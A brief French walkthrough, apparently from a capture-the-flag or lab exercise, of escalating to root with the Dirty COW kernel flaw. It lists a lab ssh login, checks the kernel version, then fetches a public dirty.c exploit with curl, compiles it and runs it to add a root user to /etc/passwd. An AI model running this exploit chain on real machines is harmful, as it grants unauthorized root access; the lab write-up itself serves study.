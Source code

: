 # Dirty Cow 

- Cette faille disponible sur les linux version 2.6.22 (2007) à 4.8.3 (2016) permet d'ecrire sur des fichiers accessible uniquement en lecture seule
- On se connecte donc a **laurie**:**330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4** en ssh
- On regarde donc la version du linux pour savoir si l'exploit est compatible
```
$> uname -r

3.2.0-91-generic-pae
```
- L'exploit est compatible avec notre version de linux
- On lance l'exploit
```
curl -O https://raw.githubusercontent.com/FireFart/dirtycow/master/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt
./dirty
```
- L'exploit arrive a ecrire un nouvelle utilisateur root dans /etc/passwd 

## Source
- [Explication](https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/index.html#what-is-cow)
- [Excplication Youtube](https://www.youtube.com/watch?v=kEsshExn7aE)
- [Script](https://github.com/FireFart/dirtycow/blob/master/dirty.c)
